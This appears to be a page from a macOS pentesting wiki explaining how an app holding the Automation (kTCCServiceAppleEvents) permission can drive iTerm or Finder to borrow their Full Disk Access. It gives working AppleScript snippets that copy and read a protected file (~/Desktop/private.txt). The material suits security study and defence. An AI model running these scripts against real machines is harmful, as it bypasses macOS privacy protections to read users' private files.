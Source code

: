 An app with the **`kTCCServiceAppleEvents`** permission will be able to **control other Apps**. This means that it could be able to **abuse the permissions granted to the other Apps**.

For more info about Apple Scripts check:

{{#ref}}
macos-apple-scripts.md
{{#endref}}

For example, if an App has **Automation permission over `iTerm`**, for example in this example **`Terminal`** has access over iTerm:

<figure><img src="../../../../../images/image (981).png" alt=""><figcaption></figcaption></figure>

#### Over iTerm

Terminal, who doesn't have FDA, can call iTerm, which has it, and use it to perform actions:

```applescript:iterm.script
tell application "iTerm"
    activate
    tell current window
        create tab with default profile
    end tell
    tell current session of current window
        write text "cp ~/Desktop/private.txt /tmp"
    end tell
end tell
```

```bash
osascript iterm.script
```

#### Over Finder

Or if an App has access over Finder, it could a script such as this one:

```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
